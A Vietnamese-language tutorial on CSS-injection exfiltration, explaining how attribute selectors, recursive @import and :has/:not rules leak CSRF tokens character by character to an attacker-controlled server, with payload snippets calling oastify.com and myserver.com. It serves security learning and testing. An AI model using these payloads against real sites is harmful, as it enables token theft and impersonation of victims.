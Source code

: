 # Tại sao cần khai thác trích xuất CSS

Gỉa sử ta tìm được 1 lỗ hổng HTML injection, nhưng không thể khai thác lên XSS do CSP hay DOM Purify

Thường thì các dev không để ý đến chặn CSS nên đây là lỗ hổng dễ gặp hơn XSS

Nếu có thể inject được đoạn script và nhận được response thì ta đã có thể tấn công bằng CSS - Exfiltrator:

```js
"><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

# Các nguyên tắc CSS để trích xuất

Mục đích của css-exfiltrator là trích xuất được các thẻ, các giá trị trong thẻ. 1 trong những ví dụ cho việc này là với csrf token, thường nếu đánh cắp được mã này ta có thể đóng giả victim để gửi form


Gỉa sử với cú pháp:

```css
input[name=csrf][value^=a] { 
    background: url("https://myserver.com/token/a");
}    
```

Thì nếu trang web inject có tag `<input name="csrf" value="abc">` thì nó sẽ gửi response đến `myserver`

Nguyên tắc chính của phương pháp này là sử dụng cú pháp để trích xuất kí tự `^=`, `$=`, `*=`,... và kết hợp với 1 số cú pháp lấy dữ liệu từ bên ngoài như `background`, `background-image`, `list-style-image` để gửi gói tin ra ngoài

Với:

- `^=`: bắt đầu bằng. Như ví dụ trên, tag có `value` bắt đầu bằng `a` nó sẽ nhận css và áp dụng `background`

- `$=`: kết thúc bằng. Như ví dụ trên, với cú pháp `[value$=c]` thì sẽ nhận được gói tin
- `*=`: bao gồm. Như ví dụ trên thì với cú pháp `[value*=a]`, `[value*=b]`, `[value*=c]` đều nhận được gói tin, nhưng ta sẽ không biết được trình tự của các kí tự

Với những kiến thức này, để trích xuất token 1 trang web có input `csrf` ta sẽ có đoạn mã dạng:

![alt text](image-13.png)

Sau đó, khi nhận được gói tin về kí tự đầu tiên (ví dụ là `Y`), ta sẽ tiếp tục thay thế kí tự đầu và gửi tiếp gói tin

Với việc 1 đoạn token sẽ gồm nhiều kí tự, nên theo lí thuyết là victim phải load css nhiều lần, điều này sẽ ko phù hợp vì có thể khiến victim nhận ra, hoặc token sẽ bị thay đổi khi load lại trang hoặc cũng có thể là trích xuất ko hết value của tag

Hoặc 1 file css với tất cả trường hợp? nếu token có 32 kí tự ta cần phải có 26^32 trường hợp chẳng hạn, điều đó không khả thi

Nên ta cần phải có giải pháp, victim chỉ cần load trang 1 lần, bị inject css và nó sẽ chạy để lấy được hết value luôn

Ở đây, ta sẽ dùng `@import`, thay vì dùng `<link>` theo dạng truyền thống `@import` dùng để include file css nhưng nó sẽ thực hiện hoán đổi trực tiếp css đó (áp dụng ngay lập tức) và lợi dụng 1 số browser thực hiện song song cả việc import này và thực hiện đoạn css còn lại, ta vừa có thể thực hiện khai thác vừa có thể gửi file css mới đến

payload sẽ có dạng 

![alt text](image-14.png)

Mỗi khi nhận 1 file css, nó sẽ gọi đến file tiếp theo, server sẽ nhận gói tin về kí tự tiếp theo để gen css tiếp theo để phản hồi

Vậy khi có 2 tag cùng bắt đầu bằng 1 kí tự thì làm cách nào để phân biệt được khi gửi gói tin về?

## Sử dụng với Software

`:has` là 1 selector rất hữu dụng trong việc trích xuất css, do việc nó không cần biết cấu trúc html như nào, nó có thể ghi đè được tất cả các thuộc tính trong css

cách sử dụng 

```html
<div><input type=hidden value=1337></div>
<style>
div:has(input[value="1337"]) {
  background:url(/collectData?value=1337);
}
</style>
```

tương tự như `:has` nhưng với tác dụng ngược lại, `:not` dùng để tránh tag chỉ định

cách dùng

```html
<style>
html:has(input[name^="m"]):not(input[name="mytoken"]) {
  background:url(/m);
}
</style>
<input name=mytoken value=1337>
<input name=myname value=gareth>
```

từ 2 selector này, ta có thể trích xuất mọi thẻ mà không sợ bị trùng

# Triển khai code

Server có 4 route: 

- `/start.css` file css đầu khi import từ web victim
- `/next` để lấy file css tiếp theo sau khi nhận được kí tự đầu
- `/l`: để lấy response nhận về, kí tự nhận về
- `/c`: để lấy kí tự cuối, kết thúc chuỗi













